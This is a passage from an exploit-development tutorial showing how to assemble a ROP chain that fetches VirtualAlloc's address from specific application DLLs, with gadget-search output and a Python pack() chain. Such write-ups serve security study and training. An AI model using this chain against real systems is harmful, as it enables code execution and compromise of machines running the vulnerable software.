 We need to patch our `VirtualAlloc` address into the memory location pointed to by our current `EAX` register. We therefore search for some options as shown below.

```python
## write-what-where gadgets ##
+--    MTPAV6.DLL.txt:5190:0x51007bc5: mov dword [eax], ecx ; pop ebp ; ret  ;  (1 found)
+--    MTPAV6.DLL.txt:5191:0x51007bd6: mov dword [eax], ecx ; pop ebp ; ret  ;  (1 found)
+--    MTPAV6.DLL.txt:5192:0x51007be7: mov dword [eax], ecx ; pop ebp ; ret  ;  (1 found)
+--    NCDAV6.DLL.txt:4260:0x50206ec0: mov dword [eax], ecx ; pop ebp ; ret  ;  (1 found)
+--    NCDAV6.DLL.txt:4261:0x50206eaf: mov dword [eax], ecx ; pop ebp ; ret  ;  (1 found)
+--    NCDAV6.DLL.txt:4262:0x50206ed1: mov dword [eax], ecx ; pop ebp ; ret  ;  (1 found)
+--    NCDAV6.DLL.txt:4333:0x50205462: mov dword [edx], eax ; mov eax, 0x00000003 ; ret  ;  (1 found)
+--    NCDAV6.DLL.txt:4334:0x50206d05: mov dword [edx], eax ; mov eax, 0x00000003 ; ret  ;  (1 found)
+--    NFS.dll.txt:9565:0x1001e57e: mov dword [eax], ecx ; pop esi ; ret  ;  (1 found)
+--    NFS.dll.txt:9566:0x1001526c: mov dword [eax], ecx ; ret  ;  (1 found)
+--    NFS.dll.txt:9668:0x10020ba3: mov dword [ecx], edx ; ret  ;  (1 found)
+--    NFS.dll.txt:9669:0x10020bb3: mov dword [ecx], edx ; ret  ;  (1 found)
+--    NFS.dll.txt:9670:0x10021c99: mov dword [ecx], edx ; ret  ;  (1 found)
+--    NFS.dll.txt:9671:0x10021cbd: mov dword [ecx], edx ; ret  ;  (1 found)
+--    NFS.dll.txt:9570:0x10020daa: mov dword [eax], edx ; ret  ;  (1 found)
+--    NFS.dll.txt:9571:0x10021d7c: mov dword [eax], edx ; ret  ;  (1 found)
```

We clearly have some options when we look at the above. We now also need to consider that at this point, we only have the address `0x100252E0` which points to the memory location of `KERNEL32!VirtualAlloc`, which is at the `0x77383db0` address. We need to have our register equal to the memory location within the address. We therefore look at further options something like `mov eax, dword [eax]` or similar would result in our `EAX` register equaling `0x77383db0` correctly.

```python
gci .\ROPS  -File -Recurse -EA SilentlyContinue | Select-String -Pattern "(mov eax, dword \[eax\]).*?((retn  ;)|(ret  ;))"  | Select-String -Pattern "(leave)" -NotMatch
ROPS\SNFS.dll.txt:9830:0x10003ae7: mov eax, dword [eax] ; mov esp, ebp ; pop ebp ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:9831:0x10021505: mov eax, dword [eax] ; pop esi ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:9832:0x100218f3: mov eax, dword [eax] ; pop esi ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:9833:0x10015fee: mov eax, dword [eax] ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:9834:0x10020b93: mov eax, dword [eax] ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:9835:0x10021c89: mov eax, dword [eax] ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:9959:0x10003ae4: mov eax, dword [ebp-0x04] ; mov eax, dword [
```

We quickly note that the above would not really work considering we mostly need our `EAX` register pointing to the memory location that needs to be patched. We further investigate our options and we identify `push ebp ; add edx, dword [eax] ; pop eax ; ret` at `0x10019c61` as a great alternative. We specifically choose this gadget as it allows us to utilise other gadgets that copy `EAX` into `EBP`. With some trail and error we update our ROP gadget as follows

```python
##OBTAINING VIRTUALALLOC ADDRESS
rop = pack("<L", (0x10012394)) # mov eax, ebx ; pop esi ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop esi
rop += pack("<L", (0x42424242)) # pop ebx 
rop += pack("<L", (0x10022a64)) # pop ecx ; ret  ;
rop += pack("<L", (0xffffffe4)) # -0x1C
rop += pack("<L", (0x10012ef4)) # add eax, ecx ; pop esi ; ret  ;
rop += pack("<L", (0x42424242)) # pop esi

rop += pack("<L", (0x50218139)) # push eax ; pop ebp ; ret  ;  (1 found)
rop += pack("<L", (0x10014429)) # pop eax ; ret  ;
rop += pack("<L", (0x100252E0)) # VirtualAlloc Address
rop += pack("<L", (0x5021db6c)) #  xor edx, edx ; ret  ;  (1 found)
rop += pack("<L", (0x10019c61)) # push ebp ; add edx, dword [eax] ; pop eax ; ret  
rop += pack("<L", (0x10021d7c)) # mov dword [eax], edx ; ret  ;
```
